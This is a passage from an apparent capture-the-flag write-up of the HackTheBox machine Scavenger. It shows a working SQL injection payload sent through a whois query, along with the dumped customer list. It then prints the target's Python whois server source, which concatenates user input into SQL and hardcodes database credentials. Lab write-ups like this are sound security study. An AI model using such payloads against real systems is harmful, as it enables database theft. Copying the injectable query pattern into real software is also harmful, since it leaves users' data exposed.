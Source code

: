 
A list of the customers:

    
    
    root@kali# whois -h 10.10.10.155 -p 43 "supersechostinga.htb') UNION SELECT GROUP_CONCAT(CONCAT(id, ': ', domain) SEPARATOR '\n'),2 FROM customers#" | grep -vE "^%"
    1: supersechosting.htb
    2: justanotherblog.htb
    3: pwnhats.htb
    4: rentahacker.htb
    

#### Whois Source

With a shell on the Scavenger, I pulled the source, which is just a Python
application at `/opt/whois/whois.py`:

    
    
    #!/usr/bin/env python
    import SocketServer
    import mysql.connector
    import unicodedata
    
    class MyTCPHandler(SocketServer.StreamRequestHandler):
        def handle(self):
            # self.rfile is a file-like object created by the handler;
            # we can now use e.g. readline() instead of raw recv() calls
            self.data = self.rfile.readline().strip()
            # Likewise, self.wfile is a file-like object used to write back to the client
            self.wfile.write(self.queryData(self.data))
    
        def queryData(self,term):
            domain=term.lower()
            data =""
            data+="% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37\r\n"
            data+="% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb\r\n"
    
            mydb = mysql.connector.connect(
                host="localhost",
                user="whois",
                passwd="whois",
                database="whois")
            mycursor = mydb.cursor()
            try:
                mycursor.execute("SELECT data, domain FROM customers where domain like ('"+domain+"') limit 1;")
                myresult = mycursor.fetchall()
                data+="% This query returned "+str(len(myresult))+" object\r\n"
                if len(myresult)>0:
                    for result in myresult:
                        data+=result[0]
            except mysql.connector.Error as err:
                data+=str(err)
            return data
    